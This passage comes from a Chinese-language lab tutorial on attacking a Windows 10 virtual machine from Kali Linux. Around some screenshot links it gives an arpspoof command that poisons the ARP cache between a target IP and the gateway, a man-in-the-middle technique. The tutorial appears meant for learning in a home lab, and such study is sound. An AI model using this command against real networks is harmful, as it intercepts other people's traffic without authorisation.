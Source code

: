 ![image-20230812172806912](assets/image-20230812172806912-17299575995233.png)

### 2.1.3. 攻击Windows 10虚拟机

这里我就攻击Windows 10 虚拟机，这里还需要看一下你的kali配置的局域网地址是在哪个网卡上。

```
arpspoof -i eth0 -t 192.168.2.20(目标IP) 192.168.2.1(网关IP)
```

![image-20230812173447579](assets/image-20230812173447579-17299575995231.png)
